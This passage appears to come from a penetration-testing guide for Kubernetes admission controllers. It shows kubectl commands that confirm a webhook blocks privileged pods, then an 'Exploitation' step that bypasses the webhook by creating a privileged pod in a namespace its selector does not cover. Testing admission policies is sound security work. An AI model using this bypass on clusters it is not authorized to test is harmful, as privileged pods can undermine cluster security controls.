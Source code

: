 First, try a simple violation to confirm the admission controller is functioning.  Assume the webhook is supposed to prevent creation of privileged pods.

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
spec:
  containers:
  - name: privileged-container
    image: alpine:latest
    securityContext:
      privileged: true
EOF
```

**Explanation:** This attempts to create a privileged pod.
**Why:** To verify the admission controller is actively blocking privileged pod creation.
**Expected Output:** An error message similar to "admission webhook denied the request: Pod is privileged and this is forbidden".  If the pod is created successfully, then the admission controller is not functioning, or does not have a policy to prevent privileged pods from running.
**What to Look For:** The specific error message provided by the webhook.
**Contribution:**  Confirms the admission controller is active and enforces the intended policy (in this example, blocking privileged pods).

### 2.3 Exploitation: Namespace Selector Bypass

If the admission controller only applies to specific namespaces, create a pod in a non-monitored namespace. First, get the list of namespaces to make sure one that's *not* supposed to be monitored exists.

```bash
kubectl get namespaces
```

**Explanation:** Lists all namespaces in the cluster.
**Why:**  To identify a namespace that is *not* monitored by the admission controller.
**Expected Output:** List of namespaces and their status.
**What to Look For:**  Namespaces that do not match the `namespaceSelector` in the Webhook configuration. For instance, if the webhook only applies to namespaces with the label `security=enabled`, create a pod in a namespace *without* that label.  Or, if the webhook only applies to the `default` namespace, create a pod in a newly created or existing namespace called `non-monitored`.
**Contribution:** Helps to determine if a bypass is possible by creating resources in an unmonitored namespace.

If a non-monitored namespace `non-monitored` exists, create a privileged pod in it.

```bash
kubectl create namespace non-monitored
cat <<EOF | kubectl apply -n non-monitored -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod-ns
spec:
  containers:
  - name: privileged-container
    image: alpine:latest
    securityContext:
      privileged: true
EOF
```
